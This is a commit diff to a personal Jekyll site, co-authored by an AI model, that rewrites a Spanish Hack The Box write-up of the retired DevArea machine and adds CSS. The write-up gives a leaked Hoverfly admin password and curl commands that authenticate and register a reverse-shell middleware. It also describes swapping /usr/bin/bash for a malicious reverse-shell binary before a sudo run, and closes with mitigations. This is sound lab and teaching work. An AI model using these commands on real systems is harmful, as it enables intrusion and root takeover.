

Before and after one commit to fraydgarcia/fraydgarcia.github.io, a Jekyll site: the page built from _writeups/devarea.md, in a window 1280 px wide. Shown: the part 379-2226 px from the top of the page at 84% size, without its empty margins (108-972 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Writeups en formato 0xdf, listado en portada y seccion Sobre mi
- Reescritos DevArea y Silentium con narrativa en primera persona y
  secciones Recon / Shell as user / Shell as root, manteniendo el
  contenido tecnico y sin flags.
- La portada lista los writeups bajo Seguridad ofensiva (como los
  articulos en Investigacion), con nuevo campo `box` para el nombre.
- Anadida seccion "Sobre mi" con un perfil profesional alineado con
  LinkedIn; nueva regla .about en main.css.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/_writeups/devarea.md
+++ b/_writeups/devarea.md
@@ -9,12 +10,17 @@ stack: "Hoverfly · LFI · API abuse · Middleware RCE · sudo · TOCTOU"
 description: "Writeup de la máquina DevArea de Hack The Box (Linux, retirada): LFI en Hoverfly, autenticación con la credencial filtrada, RCE vía middleware del proxy y escalada a root sustituyendo /usr/bin/bash antes de una ejecución con sudo."
 ---
 
-Máquina Linux (`devarea.htb`, `10.129.13.205`), ya retirada. La cadena entera es
-**LFI en Hoverfly → credencial filtrada → RCE vía middleware del proxy → shell de
-usuario → escalada a root por sustitución de `bash` antes de un `sudo`**. No hay
-flags en este writeup: lo interesante es por qué cada paso habilita al siguiente.
+DevArea es una máquina Linux (ya retirada) que gira en torno a **Hoverfly**, un
+proxy/simulador de APIs. Una LFI me filtra la contraseña del panel de
+administración, y desde ese panel puedo definir un binario arbitrario como
+*middleware* del proxy: en cuanto pasa tráfico, se ejecuta, y eso es un RCE. Para
+root, aprovecho una *race condition* de binario contra un script que se lanza con
+`sudo` y confía en el `bash` del `PATH`. No incluyo flags: lo que me interesa es por
+qué cada paso habilita al siguiente.
 
-## 1. Reconocimiento — Nmap
+## Recon
+
+### nmap
 
 ```
 # nmap -sS -sCV -Pn -A -vvv -p- --open --min-rate 5000 10.129.13.205
@@ -32,32 +38,32 @@ PORT     STATE SERVICE VERSION
 |_http-title: Hoverfly Dashboard
 ```
 
-Puertos que importan:
-
-- `21` — FTP anónimo permitido. Se explora, pero no fue la vía de entrada.
-- `80` — vhost que redirige a `devarea.htb`; hay que añadirlo a `/etc/hosts`.
-- `8500` — **proxy** de Hoverfly ("this is a proxy server").
-- `8888` — **Hoverfly Dashboard**, la API de administración.
+De todo lo que aparece, lo que me llama la atención es el par de puertos de Golang:
+el `8500` se identifica como un **proxy** ("this is a proxy server") y el `8888` como
+el **Hoverfly Dashboard**, la API de administración. El FTP anónimo del `21` lo
+exploro, pero no es la vía de entrada. El `80` redirige a `devarea.htb`, así que lo
+añado a hosts:
 
 ```bash
 echo '10.129.13.205 devarea.htb' | sudo tee -a /etc/hosts
 ```
 
-## 2. Acceso — Hoverfly: LFI a RCE por middleware
+## Shell as user
 
-[Hoverfly](https://github.com/SpectoLabs/hoverfly) es un proxy/simulador de APIs.
-La versión expuesta es vulnerable a una fuga de información (LFI) por la
-importación de esquemas XOP/MTOM, documentada en el advisory oficial
+### Hoverfly: de LFI a la contraseña del panel
+
+[Hoverfly](https://github.com/SpectoLabs/hoverfly) es un proxy/simulador de APIs. La
+versión expuesta es vulnerable a una fuga de información (LFI) por la importación de
+esquemas XOP/MTOM, documentada en el advisory oficial
 [GHSA-r4h8-hfp2-ggmf](https://github.com/SpectoLabs/hoverfly/security/advisories/GHSA-r4h8-hfp2-ggmf).
-
-**Paso 1 — LFI vía XOP/MTOM.** Se lee el fichero de configuración/servicio de
-Hoverfly y se filtra la contraseña del dashboard:
+La uso para leer el fichero de servicio/configuración de Hoverfly, que me filtra la
+contraseña del dashboard:
 
 ```
 [+] Hoverfly password: O7IJ27MyyXiU
 ```
 
-**Paso 2 — Autenticación contra la API** con la credencial filtrada:
+Con ella me autentico contra la API:
 
 ```bash
 curl -s -X POST http://devarea.htb:8888/api/token-auth \
@@ -65,9 +71,12 @@ curl -s -X POST http://devarea.htb:8888/api/token-auth \
   -d '{"username": "admin", "password": "O7IJ27MyyXiU"}'
 ```
 
-**Paso 3 — Middleware = RCE.** Hoverfly permite configurar un binario "middleware"
-que procesa cada request/response que pasa por el proxy. Si controlas el binario y
-su script, controlas la ejecución en el servidor:
+### Middleware = RCE
+
+Aquí está el fallo de diseño. Hoverfly permite configurar un binario "middleware"
+que procesa cada request/response que pasa por el proxy. Si controlo el binario y su
+script, controlo la ejecución en el servidor. Registro un middleware que abre una
+reverse shell:
 
 ```bash
 curl -X PUT http://devarea.htb:8888/api/v2/hoverfly/middleware \
@@ -79,27 +88,25 @@ curl -X PUT http://devarea.htb:8888/api/v2/hoverfly/middleware \
   }'
 ```
 
-**Paso 4 — Disparar el middleware.** Solo se ejecuta cuando el proxy procesa
-tráfico, así que hay que mandar una petición *a través* del proxy (puerto `8500`):
+El middleware solo se ejecuta cuando el proxy procesa tráfico, así que lo disparo
+mandando una petición *a través* del proxy (puerto `8500`):
 
 ```bash
 curl -s --proxy http://admin:O7IJ27MyyXiU@devarea.htb:8500 http://devarea.htb/ &
 ```
 
-Eso obliga a Hoverfly a ejecutar el script del middleware sobre el tráfico
-proxied, y devuelve la reverse shell.
+Eso obliga a Hoverfly a ejecutar el script sobre el tráfico proxied y me devuelve la
+shell. El punto clave no es el LFI en sí, sino que Hoverfly **confía en el operador
+autenticado del dashboard para definir un binario arbitrario como middleware**:
+cualquier API que permita configurar "qué binario/script se ejecuta sobre cada
+request" es, de hecho, un RCE si te puedes autenticar contra ella. El LFI solo fue el
+vector para conseguir esa autenticación.
 
-> **Por qué funciona.** El punto clave no es el LFI, sino que Hoverfly *confía en
-> el operador autenticado del dashboard para definir un binario arbitrario como
-> middleware*. Cualquier API que permita configurar "qué binario/script se ejecuta
-> sobre cada request" es, de hecho, un RCE si te puedes autenticar contra ella. El
-> LFI aquí fue solo el vector para conseguir esa autenticación.
+## Shell as root
 
-## 3. Escalada — sustituir `/usr/bin/bash` antes de un `sudo`
-
-Con shell de usuario, la escalada explota una **race condition de binario** contra
-un script con permiso `sudo` (`/opt/syswatch/syswatch.sh`). El log de la cadena de
-privesc, resumido:
+Con shell de usuario, la escalada explota una **race condition de binario** contra un
+script con permiso `sudo` (`/opt/syswatch/syswatch.sh`). Este es el log de la cadena,
+resumido:
 
 ```
 [*] LFI via XOP/MTOM → leyendo el fichero de servicio de Hoverfly...
@@ -121,22 +128,27 @@ root@devarea:/opt/HoverFly# cat /root/root.txt
 [flag redactada]
 ```
 
-Los pasos, en claro:
+La idea, paso a paso:
 
-1. Se prepara un `bash` malicioso (`evil_bash`) que, al ejecutarse, abre una
-   reverse shell a un segundo puerto —escrito como hex para no dejar visible el
-   binario original.
-2. Se mata el `bash` en uso (`killall -9 bash`) para poder reemplazarlo.
-3. Se copia el `bash` malicioso sobre `/usr/bin/bash` **justo antes** de lanzar
-   `sudo /opt/syswatch/syswatch.sh --version`.
+1. Preparo un `bash` malicioso (`evil_bash`) que, al ejecutarse, abre una reverse
+   shell a un segundo puerto —escrito como hex para no dejar visible el binario.
+2. Mato el `bash` en uso (`killall -9 bash`) para poder reemplazarlo.
+3. Copio el `bash` malicioso sobre `/usr/bin/bash` **justo antes** de lanzar `sudo
+   /opt/syswatch/syswatch.sh --version`.
 4. Si `syswatch.sh` tiene shebang `#!/bin/bash` (o invoca `bash` internamente) y se
    ejecuta con `sudo` sin fijar una ruta absoluta ni verificar el intérprete, el
    sistema acaba ejecutando el `bash` sustituido **como root**. De ahí la segunda
    shell, ya con `uid=0`.
 
-> **Causa raíz para el reporte.** Es una variante de **CWE-367 (TOCTOU)** unida al
-> abuso de un binario de confianza en un script con `sudo`. La remediación no es
-> "quitarle el sudo al script", sino que el script **no fija una ruta absoluta
-> verificada del intérprete** ni restringe el `PATH`. Recomendación: `Defaults
-> secure_path` en `sudoers`, o reescribir el script para invocar el binario por
-> ruta absoluta y con permisos que el usuario que lo ejecuta no pueda reemplazar.
+La causa raíz, para el reporte, es una variante de **CWE-367 (TOCTOU)** unida al abuso
+de un binario de confianza en un script con `sudo`. La remediación no es "quitarle el
+sudo al script", sino que el script **no fija una ruta absoluta verificada del
+intérprete** ni restringe el `PATH`.
+
+## Mitigaciones
+
+| Fallo | Corrección |
+|---|---|
+| LFI en Hoverfly (XOP/MTOM) | Actualizar Hoverfly a la versión que corrige GHSA-r4h8-hfp2-ggmf; no exponer el dashboard a la red. |
+| Middleware arbitrario = RCE | Restringir quién puede configurar middleware; tratar la consola de administración como un límite de confianza real. |
+| Escalada por sustitución de `bash` | `Defaults secure_path` en `sudoers`, o invocar el intérprete por ruta absoluta y con permisos que el usuario que ejecuta no pueda reemplazar. |
--- a/assets/css/main.css
+++ b/assets/css/main.css
@@ -117,6 +117,14 @@ a.row:hover .row-name::after{transform:rotate(45deg) translate(1.5px,-1.5px)}
   font-family:'JetBrains Mono',ui-monospace,monospace;font-size:11px;letter-spacing:.06em;
   color:var(--accent);margin-top:12px;text-transform:uppercase;
 }
+
+/* Sobre mí — prosa de sección, más aireada que una ficha */
+.about{
+  font-weight:400;font-size:17px;color:var(--body);
+  line-height:1.75;max-width:72ch;margin-top:20px;
+}
+.about:first-of-type{margin-top:24px}
+.about strong{font-weight:600;color:var(--ink)}
 
 /* Nota */
 .note{
````
Also changed, not shown: other parts of _writeups/devarea.md (+1 -0 lines), _writeups/silentium.md (+129 -96 lines), index.html (+37 -0 lines).
